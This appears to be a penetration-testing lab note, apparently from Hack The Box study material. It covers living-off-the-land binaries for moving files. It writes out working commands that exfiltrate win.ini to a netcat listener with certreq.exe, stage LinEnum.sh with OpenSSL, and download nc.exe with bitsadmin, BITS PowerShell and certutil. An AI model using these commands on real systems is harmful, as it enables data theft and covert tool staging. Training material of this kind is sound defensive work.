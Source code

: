 # Living off The Land

The phrase "Living off the land" was coined by Christopher Campbell [@obscuresec](https://twitter.com/obscuresec) & Matt Graeber [@mattifestation](https://twitter.com/mattifestation) at [DerbyCon 3](https://www.youtube.com/watch?v=j-r6UonEkUw).

The term LOLBins (Living off the Land binaries) came from a Twitter discussion on what to call binaries that an attacker can use to perform actions beyond their original purpose. There are currently two websites that aggregate information on Living off the Land binaries:

* [LOLBAS Project for Windows Binaries](https://lolbas-project.github.io/)
* [GTFOBins for Linux Binaries](https://gtfobins.github.io/)

Living off the Land binaries can be used to perform functions such as:

* Download
* Upload
* Command Execution
* File Read
* File Write
* Bypasses

This section will focus on using LOLBAS and GTFOBins projects and provide examples for download and upload functions on Windows & Linux systems.

## Using the LOLBAS and GTFOBins Project

[LOLBAS for Windows](https://lolbas-project.github.io) and [GTFOBins for Linux](https://gtfobins.github.io/) are websites where we can search for binaries we can use for different functions.

## LOLBAS

To search for download and upload functions in [LOLBAS](https://lolbas-project.github.io/) we can use `/download` or `/upload`.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Let's use [CertReq.exe](https://lolbas-project.github.io/lolbas/Binaries/Certreq/) as an example.

### **Upload win.ini to our Pwnbox**

We need to listen on a port on our attack host for incoming traffic using Netcat and then execute certreq.exe to upload a file.

```shell-session
C:\htb> certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini
Certificate Request Processor: The operation timed out 0x80072ee2 (WinHttp: 12002 ERROR_WINHTTP_TIMEOUT)
```

This will send the file to our Netcat session, and we can copy-paste its contents.

### **File Received in our Netcat Session**

```shell-session
al1abb@htb[/htb]$ sudo nc -lvnp 8000

listening on [any] 8000 ...
connect to [192.168.49.128] from (UNKNOWN) [192.168.49.1] 53819
POST / HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.19041.1466/vb_release_svc_prod1)
Content-Length: 92
Host: 192.168.49.128:8000

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

If you get an error when running `certreq.exe`, the version you are using may not contain the `-Post` parameter. You can download an updated version [here](https://github.com/juliourena/plaintext/raw/master/hackthebox/certreq.exe) and try again.

## GTFOBins

To search for the download and upload function in [GTFOBins for Linux Binaries](https://gtfobins.github.io/), we can use `+file download` or `+file upload`.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Let's use [OpenSSL](https://www.openssl.org/). It's frequently installed and often included in other software distributions, with sysadmins using it to generate security certificates, among other tasks. OpenSSL can be used to send files "nc style."

### **Create Certificate in our Pwnbox**

We need to create a certificate and start a server in our Pwnbox.

```shell-session
al1abb@htb[/htb]$ openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

Generating a RSA private key
.......................................................................................................+++++
................+++++
writing new private key to 'key.pem'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:
```

### **Stand up the Server in our Pwnbox**

```bash
al1abb@htb[/htb]$ openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

### **Download File from the Compromised Machine**

Next, with the server running, we need to download the file from the compromised machine.

```bash
al1abb@htb[/htb]$ openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

## Other Common Living off the Land tools:

## Bitsadmin Download function

The [Background Intelligent Transfer Service (BITS)](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) can be used to download files from HTTP sites and SMB shares. It "intelligently" checks host and network utilization into account to minimize the impact on a user's foreground work.

### **File Download with Bitsadmin**

```powershell
PS C:\htb> bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

PowerShell also enables interaction with BITS, enables file downloads and uploads, supports credentials, and can use specified proxy servers.

### **Download**

```powershell
PS C:\htb> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

## Certutil

Casey Smith ([@subTee](https://twitter.com/subtee?lang=en)) found that Certutil can be used to download arbitrary files. It is available in all Windows versions and has been a popular file transfer technique, serving as a defacto `wget` for Windows. However, the Antimalware Scan Interface (AMSI) currently detects this as malicious Certutil usage.

### **Download a File with Certutil**

```shell-session
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```
